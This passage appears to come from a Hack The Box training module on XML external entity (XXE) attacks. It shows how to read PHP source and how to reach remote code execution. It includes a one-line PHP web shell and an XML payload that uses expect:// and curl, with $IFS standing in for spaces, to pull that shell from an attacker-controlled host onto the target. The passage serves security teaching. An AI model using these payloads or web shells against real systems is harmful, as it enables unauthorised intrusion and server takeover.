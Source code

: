 We can select the base64 string, click on Burp's Inspector tab (on the right pane), and it will show us the decoded file. For more on PHP filters, you can refer to the [File Inclusion / Directory Traversal](https://academy.hackthebox.com/module/details/23) module.

**This trick only works with PHP web applications**. The next section will discuss a more advanced method for reading source code, which should work with any web framework.

### Remote Code Execution with XXE

In addition to reading local files, we may be able to gain code execution over the remote server. The easiest method would be to look for `ssh` keys, or attempt to utilize a hash stealing trick in Windows-based web applications, by making a call to our server. If these do not work, we may still be able to execute commands on PHP-based web applications through the `PHP://expect` filter, though this requires the PHP `expect` module to be installed and enabled.

If the XXE directly prints its output 'as shown in this section', then we can execute basic commands as `expect://id`, and the page should print the command output. However, if we did not have access to the output, or needed to execute a more complicated command 'e.g. reverse shell', then the XML syntax may break and the command may not execute.

The most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing it to the web app, and then we can interact with it to execute commands. To do so, we can start by writing a basic PHP web shell and starting a python web server, as follows:
```
user@htb[/htb]$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
user@htb[/htb]$ sudo python3 -m http.server 80
```
Now, we can use the following XML code to execute a `curl` command that downloads our web shell into the remote server:
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
Note: We replaced all spaces in the above XML code with `$IFS`, to avoid breaking the XML syntax. Furthermore, many other characters like `|`, `>`, and `{` may break the code, so we should avoid using them.

Once we send the request, we should receive a request on our machine for the `shell.php` file, after which we can interact with the web shell on the remote server for code execution.

Note: The expect module is not enabled/installed by default on modern PHP servers, so this attack may not always work. This is why XXE is usually used to disclose sensitive local files and source code, which may reveal additional vulnerabilities or ways to gain code execution.

### Other XXE Attacks

Another common attack often carried out through XXE vulnerabilities is SSRF exploitation, which is used to enumerate locally open ports and access their pages, among other restricted web pages, through the XXE vulnerability. The [Server-Side Attacks](https://academy.hackthebox.com/course/preview/server-side-attacks) module thoroughly covers SSRF, and the same techniques can be carried with XXE attacks.
